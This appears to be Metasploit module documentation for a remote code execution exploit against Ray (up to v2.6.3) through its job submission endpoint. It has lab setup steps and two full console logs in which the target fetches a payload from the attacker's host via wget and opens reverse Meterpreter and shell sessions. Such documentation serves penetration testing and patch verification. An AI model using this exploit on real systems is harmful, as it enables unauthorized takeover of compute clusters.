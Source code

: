 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via the agent job submission endpoint

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_agent_job_rce`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_EJDSK2BrhAP8j69n' Submission ID: 'raysubmit_EJDSK2BrhAP8j69n'
[*] Using URL: http://192.168.56.1:8080/kOZWO5HA3wWm2Hh
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /kOZWO5HA3wWm2Hh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:42052) at 2024-08-10 10:45:48 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > set target 1
target => 1
msf6 exploit(linux/http/ray_agent_job_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_RNpiJJt2feNrUrwN' Submission ID: 'raysubmit_RNpiJJt2feNrUrwN'
[*] Using URL: http://192.168.56.1:8080/QtpKXmqA8kq
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /QtpKXmqA8kq
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:35136) at 2024-08-10 10:47:37 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```
